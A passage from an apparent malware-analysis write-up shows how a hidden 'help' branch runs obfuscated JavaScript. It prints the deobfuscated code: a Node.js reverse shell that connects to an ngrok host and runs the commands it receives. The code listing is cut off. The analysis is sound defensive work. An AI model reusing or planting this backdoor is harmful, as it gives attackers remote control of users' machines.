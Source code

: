 ![](/assets/images/posts/2025-07-22-ReliableThreat/01.png)

One of the if-else which is expecting the `help` keyword execute an obfuscated js code, using [Obfuscator.io](https://obf-io.deobfuscate.io/) to deobfuscate it give this result:
```
const fs = require('fs');
const net = require("net");
const path = require("path");
const os = require('os');
const {
  pid
} = require("process");
const lockFilePath = path.join(os.homedir(), '.' + pid + ".lock");
if (!fs.existsSync(lockFilePath)) {
  fs.writeFile(lockFilePath, '', _0x2452ba => {
    if (_0x2452ba) {
      console.error(_0x2452ba);
    }
  });
  (function () {
    const _0x3db126 = new net.Socket();
    _0x3db126.connect(16587, "6.tcp.eu.ngrok.io");
    _0x3db126.on("data", _0xd34d07 => {
      const _0x45fcf2 = _0xd34d07.toString();
      require("child_process").exec(_0x45fcf2, (_0x460220, _0x254585, _0x3aa38b) => {
        if (_0x460220) {
          _0x3db126.write(_0x3aa38b);
        } else {
          _0x3db126.write(_0x254585);
        }
      });
    });
```